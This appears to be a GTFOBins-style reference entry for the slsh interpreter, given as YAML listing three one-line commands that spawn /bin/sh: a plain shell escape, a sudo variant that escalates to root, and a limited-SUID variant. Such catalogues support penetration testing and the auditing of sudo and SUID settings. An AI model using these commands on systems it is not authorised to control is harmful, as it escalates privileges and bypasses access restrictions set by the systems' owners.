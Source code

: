 ```yaml
---
functions:
  shell:
    - code: slsh -e 'system("/bin/sh")'
  sudo:
    - code: sudo slsh -e 'system("/bin/sh")'
  limited-suid:
    - code: slsh -e 'system("/bin/sh")'
---
```

